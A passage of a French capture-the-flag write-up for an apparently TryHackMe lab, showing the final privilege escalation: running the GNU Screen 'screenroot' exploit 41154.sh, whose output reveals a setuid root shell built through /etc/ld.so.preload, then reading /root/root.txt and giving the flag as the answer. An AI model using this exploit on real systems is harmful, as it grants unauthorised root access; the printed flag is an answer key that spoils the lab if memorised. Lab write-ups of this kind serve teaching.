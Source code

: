 On trouve un exploit puis on le transfert sur la machine cible.  

```bash
joker@ubuntu:~$ chmod +x 41154.sh 
joker@ubuntu:~$ ./41154.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.

# whoami
root
# cat /root/root.txt
THM{5ecd98aa66a6abb670184d7547c8124a}
```

On exécute l'exploit, on obtient un shell avec les droits root et on lit le fichier \/root\/root.txt    

Réponse : THM{5ecd98aa66a6abb670184d7547c8124a}   